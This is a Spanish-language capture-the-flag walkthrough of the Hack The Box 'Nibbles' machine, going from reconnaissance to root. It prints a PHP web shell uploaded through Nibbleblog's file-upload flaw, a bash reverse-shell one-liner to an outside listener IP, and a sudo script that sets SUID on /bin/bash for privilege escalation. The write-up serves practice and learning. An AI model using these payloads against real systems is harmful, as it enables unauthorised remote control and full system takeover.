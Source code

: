 ## Summary

- IP -> 10.10.10.75
- Ports -> TCP (22,80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.2p2  
    - 80 -> Apache httpd 2.4.18 

## Recon
Podemos enumerar usuarios con ese version de SSH, ya que es inferior a la version **7.7** 
Buscaremos con el codename **OpenSSH 7.2p2 ubuntu 4ubuntu2.2 launchpad** y veremos que version de Linux es: Xenial
Buscaremos con el codename **apache httpd 2.4.18 launchpad** y veremos que version de Linux es: Xenial
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
En el Wapalyzer miramos que tiene un PHP, y jQuery 2.1.0 que esta desactualizado. La ultima version de jQuery es **3.6.3**

- Cuando tenemos un **PHP** quiere decir que nos interpreta ese codigo, por tanto no lo veriamos, el que podriamos llegar  a ver seria el de **HTML**.

- Que es Nibbleblog? Es un CMS para crear blogs sin usar bases de datos

En el codigo de la web **Ctrl + u** encontramos una ruta **/nibbleblog** y mirams que hay. Por lo que creemos que hay mas rutas. Por ende nos ponemos a hacer un FUZZ

- **wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-content/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ** Para descibrir rutas alternativas
- **wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-content/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ.php** Para descubrir archivos php y encontramos un admin.php (Panel de autenticacion)

En el panel de autenticacion ya habiamos descubierto que si hya un usuario valido llamado admin, por lo que la password seria igual que como se llama la maquina nibbles. Y asi logramos entrar en la Web. 

- **Searchsploit Nibbleblogs** y descubrimos que hay una version que es igual a la de la pagina web 4.0.3 que es vulnerable a Arbitrary File Upload 
- searchsploit -x 15265.txt Para mirar el contenido del exploit

Miramos que hay una ruta en la pagina web en donde podemos subir archivos 

En el cual subiremos el siguiente que sera en php.
nano cmd.php
	<?p 
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
	 ?>
El cual cuando lo ejecute, nosotros podamos ejecutar comandos
Este archivo lo subimos en **Pluggins::My images** de la pagina Web
La ruta en la url en donde los guarda es **/nibbleblog/content/private/pluggis/my_images**

## User
Ahora podemos ejecutar comando remotos colocando esto al final de la url **?cmd=whoami**
por lo que hacemos lo siguiente:

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443
En la url escribimos lo siguiente /image.php?cmd=**bash -c "bash -i >& /dev/tcp/10.10.14.17/443 0>&1"** Esto nos dara la revershell a nuesta IP
Colocamos lo anterior en url-encode para que nos marque algun error:
- **bash -c "bash -i >%26 /dev/tcp/10.10.14.17/443 0>%261"** 

Y ya entramos a la maquina victima. Por lo que ahora hacemos tratamiento de la tty
-
Tratamiento de la consola Linux cuando entras a una maquina victima
 **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
 **Ctrl + z**
 **stty raw -echo; fg**
 **reset xterm**

Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
**echo $SHELL** Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
**export SHELL=bash** Hacemos que shell ahora valga bash
**export TERM=xterm**

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

-
Despues buscamos la primer flag -> user.txt

## Root

- **sudo -l** Tenemos un privilegio a nivel de sudoers
-Nos debemos de crear una ruta y un archivo con extension .sh que el cual al momento de escribirle algo lo podremos ejecutar como root y asi ganaremos acceso. 

nano monitor.sh 
	#!/bin/bash
	chmod u+s /bin/bash

Con este script queremos que nos ejecute este script con un permiso suid a la bash

- **sudo -u root /home/nibbler/personal/stuff/monitor.sh** Haremos que root no ejecute ese script ya que solo ahi podemos ejecutar con ese privilegio de root y nos dara una S -> privilegio suid 
- **bash -p**  (p=priviledge) y que me de la bash de forma temporal como root y listo 
Ahora solo queda buscar la flag root.txt